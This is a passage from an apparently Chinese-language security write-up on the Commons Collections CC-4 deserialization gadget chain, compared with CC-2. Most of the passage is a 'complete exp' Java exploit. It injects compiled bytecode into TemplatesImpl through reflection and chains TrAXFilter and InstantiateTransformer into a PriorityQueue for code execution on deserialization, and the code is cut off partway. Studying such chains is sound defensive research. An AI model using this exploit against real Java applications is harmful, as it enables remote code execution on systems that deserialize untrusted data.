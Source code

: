 ```plain
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-2分析

结合CC-2，CC-4就是把Transformer换成了InstantiateTransformer，改用TrAXFilter的构造方法调用templates的newTransformer方法。

### 完整exp

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl Templates = new TemplatesImpl();

        Class templatesClass = Templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");

        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));

        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(Templates);
```